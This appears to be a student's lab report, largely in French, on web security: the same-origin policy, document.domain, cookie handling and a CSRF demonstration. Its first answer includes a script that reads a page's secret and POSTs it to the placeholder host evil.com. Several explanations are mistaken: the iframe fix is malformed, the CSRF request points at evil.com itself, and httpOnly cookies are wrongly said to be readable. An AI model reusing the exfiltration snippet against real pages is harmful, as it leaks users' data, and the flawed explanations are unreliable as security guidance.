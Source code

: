 **Question 1 : Look at the code of integrator.html and write code for evilGadget.js in such a way that evilGadget.js will send the secret to evil.com. Rewrite integrator.html so the same origin policy will protect the secret.**

```js
// evilGadget.js
const secret = document.getElementById("secret").innerText;  
  
const urlAttackerSever = "http://evil.com:8080"  
  
const request = {  
    mode:  'no-cors',  
    method: "POST",  
    headers: {  
        'Content-Type': 'application/json',  
    },  
    body : JSON.stringify({ secret: secret })  
};  
  
fetch(urlAttackerSever, request)
```

Pour mettre en place le SOP (Same Origin Policy), afin de protéger le secret, il faut mettre une balise iframe au lieu d'une balise script. Comme la balise iframes sont conçue pour charger une page html dans une autre page html. Nous allons devoir créer une page html sur le site **evil.com**, contenant une balise script ayant pour source **evilGadget.js**.

```html
<!-- page web html sur evil.com -->
<html>  
<head>  
    <script src="http://evil.com:8080/mycode/evilGadget_v2.js"></script>  
</head>  
<body>  
<h1>  
    Page from evil.com  
</h1>  
</body>
```

Le gadget est le même vu précédemment.

Nous devons ensuite modifier la page **integrator.html** de manière suivante, afin de changer la balise script par une balise iframe

```html
<!-- integrator.html sur host.com -->
<html>  
<h1>  
    Trusted page  
  
    <div id=secret>  
        42  
    </div>  
</h1>  
  
<iframe src="http://evil.com:8080/mycode/page.html">  
    <script src="http://evil.com:8080/mycode/evilGadget_v2.js">  
    </script></iframe>  
</html>
```

Finalement, le site evil.com ne peut plus récupérer le secret.

**Question 2 : Look at the sop2.html. From subdomain2.html try to read the secret from the integrator, what happens according to SOP? How do you read the secret by using document.domain?**

Il n'est pas possible de récupérer le secret, car la source l'iframe ne provient pas de la même origine que le serveur hébergeant la page principale. La raison provient de la politique SOP appliquée par les iframes.

Pour pouvoir lire le secret, il faut changer le nom de domaine dans une balise script fournit par le serveur subdomain.host.com. Nous pouvons réaliser cela, en modifiant la fichier subdomainpage.html de la manière suivante :

```bash
<html>  
<head>  
    <script>    </script><h1> This is an iframe of different origin (subdomain)</h1>  
<script>  
    document.domain="host.com";  
    mydiv=document.getElementById("secret");  
    alert(mydiv.innerHTML);  
</script>  
</head>  
</html>
```

Nous devrions pouvoir afficher le secret dans une balise alert. En pratique, j'ai jamais réussi à le faire fonctionner.

**Question 3 : Write two different services from the same server that set a cookie.  
On the client side include a gadget et an try the following things:**

- let the gadget delete the cookie via JavaScript
- can the second service delete the cookie of the first? Justify why.
- let the gadget send the cookie to another server (you can use a different port to simulate this)
- Does the previous item work if the gadget is inside a frame?
- and if the gadget is inside a script and the cookie is initially set as httpOnly?
- and if the gadget is inside a script and the cookie is initially set as secure?  
**Justify all your answers with code and explanations.**

Le second service peut supprimer le cookie du premier car, les deux scripts appartiennent au même domaine. Ils partagent donc le même espace de stockage au niveau du navigateur, incluant les cookies.

S'il est à l'intérieur d'une frame oui, après ça dépend de la politique SameSite du cookie.

Si le gadget est à l'intérieur d'un script et qu'il est en httpOnly ou en secure, il sera également envoyé.

**Question 4 : Implement a CSRF attack and explain then demonstrate what kind of  
SameSite cookie can mitigate this attack.**

Pour implémenter une CSRF, nous devons avoir une page web hébergée, par exemple sur evil.com qui réalise un requête sur un autre site, par exemple host.com

```html
<!-- Page sur evil.com -->
<!DOCTYPE html>
<html lang="en">  
<head>  
    <meta charset="UTF-8">  
    <title>Title</title>  
</head>  
<body>  
<h1>Attaque CSRF on evil.com to host.com</h1>  
<script>  
    const url = "http://evil.com:8080/random_ressouce.html";  
    const request = {  
        mode:  'no-cors',  
        method: "GET",  
        headers: {  
            'Content-Type': 'application/json',  
        },  
    };  
  
    fetch(url, request);  
</script>  
</body>  
</html>
```

Les cookie de host.com sont envoyés au cours de la requête.
